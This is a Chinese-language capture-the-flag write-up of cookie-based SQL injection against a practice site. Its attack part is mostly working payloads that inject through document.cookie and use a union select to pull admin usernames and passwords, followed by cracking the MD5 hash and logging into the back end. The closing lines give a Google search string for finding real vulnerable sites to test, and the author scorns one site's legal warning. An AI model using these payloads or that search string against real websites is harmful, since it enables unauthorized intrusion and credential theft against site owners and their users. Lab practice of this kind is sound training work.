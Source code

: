 今天玩封神台第二关，学习到了不同的cookie注入方式。一般来说cookie注入有两种方式
1.将cookie带入数据库查询
2.允许request通信，可以用cookie来传送值

今天说的就是第二种
练习站点：[封神台第二关](http://117.41.229.122:8004)

这个站点防注和一些google搜出来的站点防御很像：
![khcuRS.png](https://s2.ax1x.com/2019/02/23/khcuRS.png)

注入方式：
输入：
```
javascript:alert(document.cookie="id="+escape("171'"))
```
执行后在刷新页面，发现页面回显不一样了。说明存在cookie注入

![khfOqe.png](https://s2.ax1x.com/2019/02/23/khfOqe.png)

![khfhVJ.md.png](https://s2.ax1x.com/2019/02/23/khfhVJ.md.png)


![khf726.png](https://s2.ax1x.com/2019/02/23/khf726.png)

然后就可以构造以下payload：
```
javascript:alert(document.cookie="id="+escape("171 and exists(select * from admin)"))
javascript:alert(document.cookie="id="+escape("171 and exists(select username from admin)"))
javascript:alert(document.cookie="id="+escape("171 and exists(select password from admin)"))
javascript:alert(document.cookie="id="+escape("171 order by 10"))
javascript:alert(document.cookie="id="+escape("0 union select 1,2,3,4,5,6,7,8,9,10 from admin"))
javascript:alert(document.cookie="id="+escape("0 union select 1,username,password,4,5,6,7,8,9,10 from admin"))
```
![kh4bHe.md.png](https://s2.ax1x.com/2019/02/23/kh4bHe.md.png)

![kh4ONd.png](https://s2.ax1x.com/2019/02/23/kh4ONd.png)

找到后台路径：
![kh4zgP.md.png](https://s2.ax1x.com/2019/02/23/kh4zgP.md.png)

解密md5登录进后台即可获取flag
![kh59u8.png](https://s2.ax1x.com/2019/02/23/kh59u8.png)

可以尝试用google找几个站点来测试一下：
```
inurl:asp?id=1 intext:公司|化工
```
之前遇见一个律师的站，警告真tm欠打